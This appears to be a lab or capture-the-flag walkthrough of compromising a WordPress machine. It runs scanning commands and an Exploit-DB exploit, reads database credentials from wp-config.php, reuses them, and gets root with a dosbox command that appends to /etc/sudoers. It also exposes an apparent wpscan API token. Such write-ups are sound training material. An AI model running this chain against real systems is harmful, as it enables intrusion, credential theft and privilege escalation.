# Mapping
**robots.txt:**
```

```
**.svn:**
```

```
**.DS_STORE**
```

```

# Directory Busting
```
gobuster dir -u ${ip} -w /usr/share/wordlists/dirb/common.txt -t 5
```
```
dirbuster
```
```
feroxbuster -u http://host.domain.tld:80/ -x php -C 404 -A --wordlist '/usr/share/seclists/Discovery/Web-Content/directory-list-2.3-big.txt' -B --auto-tune
```


It's a wordpress site with bad spelling.

Using wp-scan:
```
wpscan --url http://192.168.198.105/ --api-token qa7plsUQx372hiQc5FQUPOjcfhGUCQ2Dp8DQi4ate2k
```

Using this exploit:
https://www.exploit-db.com/exploits/48979

Modifying the ip and port:


```
python3 file.py http://192.168.198.105
```
Running it we get a shell:


Now checking the wp-config.php:

We have credentials
```
mysql -u commander -pCommanderKeenVorticons1990 -h localhost
```
Now logging in we found wp_users table:



We have a hash for admin.


We can switch to commander user with the same password and `su commander`

Now running linpeas we found suid binary dosbox:


Now to privesc and checking from gtfobins:
```
LFILE='/etc/sudoers'
```
```
dosbox -c 'mount c /' -c "echo commander ALL=(ALL:ALL) ALL >>c:$LFILE" -c exit
```

And we are root.


